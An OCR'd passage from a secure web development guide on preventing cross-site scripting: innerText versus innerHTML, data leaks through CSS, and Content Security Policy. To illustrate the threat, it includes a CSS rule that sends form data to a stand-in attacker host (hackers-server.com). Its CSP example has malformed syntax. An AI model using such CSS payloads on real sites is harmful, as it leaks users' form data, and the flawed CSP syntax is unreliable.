 **More safe:**

```javascript
const userString = '<strong>hello, world!</strong>';
const div = document.querySelector('#user-comment');
div.innerText = userString; // tags interpreted as strings
```

Using innerText rather than innerHTML whenever appending true strings or string-
like objects to the DOM is a best practice. This is because innerText performs its
own sanitization in order to view HTML tags as strings, whereas innerHTML does not
perform such sanitization and will interpret HTML tags as HTML tags when loaded
into the DOM.

Did you know you could also do some harm using CSS?
`background: url('some-url')` does make a GET Request.
CSS allows for selective styling based on the condition of a form. This means we
can change the background of an element in the DOM based on the state of a form
field:

```css
#income[value=">100k"] {
background:url("https://www.hackers-server.com/incomes?amount=gte100k");
}
```

As you can see, when the income button is set to >100k, the CSS background changes,
initiating a GET request and leaking the form data to another website.
CSS is much more difficult to sanitize than JavaScript, so the best way to prevent such
attacks is to disallow the uploading of stylesheets or specifically generate stylesheets
on your own, only allowing a user to modify fields you permit that do not initiate
GET requests.

##### Content Security Policy for XSS Prevention

The CSP is a security configuration tool that is supported by all major browsers. It
provides settings that a developer can take advantage of to either relax or harden
security rules regarding what type of code can run inside your application.
CSP protections come in several forms, including what external scripts can be loaded,
where they can be loaded, and what DOM APIs are allowed to execute the script.
Let’s evaluate some CSP configurations that aid in mitigating XSS risk.

CSP allows you to specifically whitelist URLs from which dynamic scripts can be
loaded. This is known as script-src in your CSP. A simple script-src looks like
this:

```javascript
Content-Security-Policy: script-src "self" https://whitelist.com.
```

With such a CSP configuration, attempting to load a script from `https://hackers-server.com` would not be successful, and the browser would throw a CSP violation

There are other ways to mitigate this vulnerability, but for the sake of simplicity, we'll have those.

### SQL Injection (SQLi)
